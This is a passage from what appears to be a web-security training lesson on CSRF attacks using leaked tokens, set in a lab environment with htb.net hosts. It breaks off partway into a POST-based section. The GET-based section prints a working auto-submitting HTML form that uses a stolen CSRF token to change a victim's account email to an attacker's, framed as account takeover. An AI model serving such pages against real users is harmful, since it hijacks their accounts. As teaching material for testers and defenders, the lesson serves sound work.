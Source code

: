 ## GET-based
Similar to how we can extract session cookies from applications that do not utilize SSL encryption, we can do the same regarding CSRF tokens included in unencrypted requests.

To retrieve CSRF tokens in an HTTP GET request, use a proxy tool such as Burp Suite to intercept the request. Notice that the CSRF token is included in the request as a query parameter.

With the CSRF token now in attacker's hand, all they have to do is create and serve the below HTML page to deface or takeover someone else's account:
```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

An attacker will then serve this malicious web page on a server and wait for the unsuspecting user to access the malicious URL to perform unintended actions.
## POST-based
The vast majority of applications nowadays perform actions through POST requests. Subsequently, CSRF tokens will reside in POST data. In the following example, we will attack an application and find a way to leak the CSRF token to allow us to mount a CSRF attack.

Using Burp Suite, intercept the POST request `/app/delete/our-email@htb.net`, notice that 